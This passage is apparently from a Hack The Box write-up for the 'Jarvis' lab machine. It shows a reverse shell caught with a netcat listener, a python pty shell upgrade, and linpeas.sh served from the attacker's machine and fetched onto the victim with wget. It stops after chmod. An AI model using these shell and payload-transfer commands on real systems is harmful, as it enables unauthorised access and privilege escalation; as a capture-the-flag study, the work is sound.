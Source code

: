 I received the reverse shell on my netcat listener and upgraded it to an interactive shell.

```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 8888 
listening on [any] 8888 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.143] 50410
whoami
pepper
python3 -c 'import pty; pty.spawn("/bin/bash")'
pepper@jarvis:~$ ls
ls
Web  user.txt
```

Grabbing the user flag.

```
pepper@jarvis:~$ cat user.txt
[REDACTED]
```

## Privilege Escalation
I decided to transfer `linpeas.sh` to the victim machine.

So, I copied the file into my working directory and started a python server to host the file.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Jarvis]
└─$ cp /usr/share/peass/linpeas/linpeas.sh .                                                                                                                                                       
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Jarvis]
└─$ python -m http.server 5555 
Serving HTTP on 0.0.0.0 port 5555 (http://0.0.0.0:5555/) ...
10.10.10.143 - - [16/Mar/2023 02:30:42] "GET /linpeas.sh HTTP/1.1" 200 -

```

Used `wget` to transfer the file to victim machine
```
pepper@jarvis:/tmp$ wget 10.10.14.8:5555/linpeas.sh
wget 10.10.14.8:5555/linpeas.sh
--2023-03-16 02:30:44--  http://10.10.14.8:5555/linpeas.sh
Connecting to 10.10.14.8:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828078 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 808.67K   475KB/s    in 1.7s    

2023-03-16 02:30:46 (475 KB/s) - 'linpeas.sh' saved [828078/828078]
```

Gave it execute permissions.
```
chmod +x linpeas.sh
```
